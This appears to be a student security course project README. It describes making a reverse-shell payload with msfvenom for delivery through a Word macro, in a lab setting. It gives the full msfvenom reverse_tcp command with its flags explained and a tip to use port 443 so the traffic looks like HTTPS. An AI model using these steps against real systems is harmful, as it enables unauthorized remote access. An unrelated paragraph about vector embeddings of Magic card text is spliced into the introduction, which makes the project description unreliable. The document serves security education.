 # IT 359 Project
This project demonstrates how a reverse shell payload can be created using msfvenom and embedded into a Microsoft Word macro as a proof-of-concept for educational and defensive security purposes. The objective is to simulate a common attack technique used by threat actors to gain unauthorized access to a target system, with the ultimate goal of understanding how such threats operate, how to identify them, and how to effectively defend against them.   

By following the steps outlined in this project, readers will gain insight into:  
  
How attackers craft and deliver malicious payloads using social engineering.  
How Microsoft Office macros can be exploited for code execution.  
Techniques for detecting and mitigating macro-based malware threats in enterprise environments.   
Data (like text from Magic cards) is transformed into these vectors using a process involving tokenization (splitting text into smaller units) and embedding (converting tokens into numerical representations using pre-trained models)    
When you query, the same vectorization process is applied to your query, and the resulting query vector is compared to the vectors in the database to find the most similar ones.      
Technologies used will include Weaviate(built in AI and machine learning integration), OpenAI, python, node.js and next.js    

# Day One: Topic 
After adding Ben to the group a little later into the semester, I opened up the Idea to doing a project that was little more realistic for our group to complete. I really just used AI and the project prompt to get some suggestions. Ultimately went with the subject explained above. Also used AI to create an outline of each members responsibilities by giving it our topic, timeline and number of memebers.
- Looking back, it was great for a start, but we should have revised it to be a little more compatible with our group.  

# MSFVenom Payload  
AI suggested using MSFVenom to create the payload and after looking into it, I realized that it was implemented in metasploite which we have experience with and acess to on our proxmox VMs. 
This was the main website I used to research the flags and how to use them(reading the instruction in the terminal is a bit of a headache for me) https://www.offsec.com/metasploit-unleashed/msfvenom/  
Ultimately the command I came up with was msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f vba.  
* -p
- the flag to start creating a payload
- "windows" to target a windows machine(any of the promox machines in our case)  
- "meterpreter" is the interactive shell component
- "reverse_tcp" makes the victim reach out to our attacking machine
* LHOST will be our attacking machines IP(kali linux proxmox vm)
* LPORT will be the port we have our listener setup on
- Can use 4444 which is the metasploit default
- Another option is 443 if we want to be sneaky and make it look like HTTPS traffic  
* -f VBA
- f = format of the output
- vba = visual basic for applications format

